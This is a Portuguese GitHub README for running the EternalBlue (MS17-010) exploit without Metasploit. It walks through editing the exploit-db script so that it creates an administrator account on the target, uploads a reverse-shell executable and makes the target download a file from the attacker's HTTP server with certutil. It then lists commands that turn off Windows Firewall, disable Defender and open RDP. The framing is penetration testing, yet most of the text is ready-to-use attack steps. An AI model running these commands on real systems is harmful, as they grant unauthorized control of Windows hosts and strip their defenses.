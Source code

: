 # Exploiting Windows 7, 8.1, 2008 R2, 2012 R2, 2016 R2, 2016 Server etc Com Eternalblue SEM METASPLOIT (MS17-010) (CVE 2017-0144)

Script que explora manualmente a vulnerabilidade MS17-010 (CVE 2017-0144 ) e funciona nos sistemas: Windows 7 / 8.1 / 2008 R2 /2012 R2 / 2016 R2 / 2016 Server

**Exploit tirado do exploit-db - [42315](https://www.exploit-db.com/exploits/42315])**

**Testado no Windows Server 2016 Standard Evaluation 14393**

Criei esse respositório pois quando precisei, tive dificuldade para executar o exploit (baixar depedências) e entender o código, sendo assim decidi criar esse repositório para facilitar o pentest caso alguém se depare com o mesmo problema que eu

## Preparando o ambiente para executar o exploit

Necessário python2 (python2.7) 
```bash
$ sudo apt update
$ sudo apt upgrade
$ sudo apt install python2.7
```
Necessário pip2
```bash
$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py;
$ python2 get-pip.py;
$ rm get-pip.py;
```
Baixando pacotes necessários
```bash
$ pip2 install --upgrade setuptools;
$ pip2 install impacket==0.9.22
```

## Alterações no exploit
A lógica é usar a função **smb_send_file** para enviar um executável de shell reversa, e a função **service_exec** para executar o código. 
Porém devido ao Windows Defender não da para realizar isso diretamente. 

*A função **service_exec** (linha 923) é onde se localiza o comando que será executado como é mostrado abaixo*
*A função **smb_send_file** (linha 922) envia um arquivo local para a máquina alvo*

- Adicionando um usuário e senha (caso não tenha um usuário válido, tente adicionar apenas o USERNAME como guest)
```python
USERNAME = 'guest'
PASSWORD = ''
```

- Alterações para criar um usuário com acesso de Autoridade
```python 
service_exec(conn, r'cmd /c net user pentester Pentester123 /add') # linha - 923
# criando o usuário 'pentester' com a senha 'Pentester123'
```
```python 
service_exec(conn, r'cmd /c net localgroup administrators pentester /add') # linha - 923
# Adicionando o usuário 'pentester' ao grupo de administradores
```
- Alteração para enviar um arquivo local para a máquina alvo
```shell
smb_send_file(smbConn, '/path_to_your_filel/eternal-blue.exe', 'C', '/eternal-blue.exe') # Arquivo é inserido na raiz (c:\) neste exemplo
```
 
Caso você queira tentar ganhar uma shell reversa vou deixar os comandos necessários abaixo

## Executando o Exploit
```bash
$ python2.7 exploit.py <target ip>
```

## PoC

- Na sua máquina execute
```bash
touch test
python3 -m http.server 80
```
- na exploit altera as linhas 922 e 923
```python
#smb_send_file(smbConn, './shell.exe', 'C', '/shell.exe') #922
service_exec(conn, r'cmd /c certutil.exe -urlcache -f http://<your ip>:80/test test') #923
```

## Comandos úteis do Windows para pentest
- Comando para desligar o Firewall do Windows
```shell
netsh advfirewall set currentprofile state off
```
- Comando para desabilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```
- Comando para habilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 0 /f
```

- Comando para habilitar a porta 3389 no firewall
```shell
netsh advfirewall firewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```
- Comando para habilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- Comando para desabilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
